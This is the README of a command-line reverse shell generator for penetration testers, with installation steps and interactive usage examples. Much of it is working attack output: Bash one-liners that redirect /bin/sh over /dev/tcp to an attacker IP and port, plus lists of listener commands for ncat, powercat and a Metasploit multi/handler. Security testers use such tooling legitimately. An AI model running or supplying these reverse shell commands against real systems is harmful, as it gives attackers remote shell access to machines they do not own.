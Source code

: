 # General Information

A command-line reverse shell generator, 
if you got tired of visiting https://www.revshells.com/ every time you need to pop up a reverse shell,
and you want to have everything in your console.


# Installation

```bash
$ apt install python3 python3-pip
$ git clone https://github.com/cyberhexe/reverse-shell-generator
$ cd reverse-shell-generator
$ pip3 install -r requirements.txt
```

# Usage

### Printing the script arguments

`python3 revshellgenerator.py -h`

### Running the reverse shell generator

```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> help
Documented commands (type help <topic>):
========================================g
et  help  ip  list  port  shell
>> help list
list [ reverse | listeners | shells | msfvenom ]
List the available templates, shells or listener commands.
E.g.: list shells
>> help get
get [ reverse | listeners | shells | msfvenom ] [index]
Generate the actual command with the given options.
The first parameter specifies which type of the command it's going to be.
The [index] parameter specifies which template should be used for generating the command.E.g.: get reverse 0
Use 'list' command for getting the index.
>>
```

### Setting reverse IP address and port

```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> ip 192.168.45.19
The IP address has been set as '192.168.45.19'
>> port 4200
The port has been set as '4200'
>>  
```

Alternatively, you can provide the IP/port as script arguments for not prompting them later:
`python3 revshellgenerator.py --ip 192.168.45.19 --port 4200`

### Listing available reverse shell commands
```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> list reverse
0 - Bash -i [linux | mac]
1 - Bash 196 [linux | mac]
2 - Bash read line [linux | mac]
3 - Bash 5 [linux | mac]4 - Bash udp [linux | mac]
5 - nc mkfifo [linux | mac]6 - nc -e [linux | mac]
7 - nc.exe -e [windows]8 - nc -c [linux | mac]
9 - ncat -e [linux | mac]10 - ncat.exe -e [windows]
... truncated ...
>> 
```

*The indexes are used while choosing the command template.*

### Listing available listener commands
```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> list listeners
0 - nc
1 - ncat
2 - ncat (TLS)
3 - rlwrap + nc4 - rustcat
5 - rustcat + Command History6 - pwncat
7 - windows ConPty8 - socat
9 - socat (TTY)
10 - powercat
11 - msfconsole
>>
```

### Generating reverse shell commands

```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> ip 192.168.45.19
The IP address has been set as '192.168.45.19'
>> port 4200
The port has been set as '4200'
>> get reverse 0
/bin/sh -i >& /dev/tcp/192.168.45.19/4200 0>&1
>> get reverse 1
0<&196;exec 196<>/dev/tcp/192.168.45.19/4200; /bin/sh <&196 >&196 2>&196
>> get reverse 2
exec 5<>/dev/tcp/192.168.45.19/4200;cat <&5 | while read line; do $line 2>&5 >&5; done
>>  
```

Alternatively, you can provide the IP/port as script arguments and call the `get reverse` command straightaway
```bash
$ python3 revshellgenerator.py --ip 192.168.45.19 --port 4200
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> get reverse 0
/bin/sh -i >& /dev/tcp/192.168.45.19/4200 0>&1
>> get reverse 1
0<&196;exec 196<>/dev/tcp/192.168.45.19/4200; /bin/sh <&196 >&196 2>&196
>> get reverse 2
exec 5<>/dev/tcp/192.168.45.19/4200;cat <&5 | while read line; do $line 2>&5 >&5; done
>>  
```

### Generating listeners commands
```bash
$ python3 revshellgenerator.py --ip 192.168.45.19 --port 5050
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> get listeners 10
powercat -l -p 5050
>> get listeners 1
ncat -lvnp 5050
>> get listeners 11
msfconsole -q -x "use multi/handler; set payload {payload}; set lhost 192.168.45.19; set lport 5050; exploit"  

```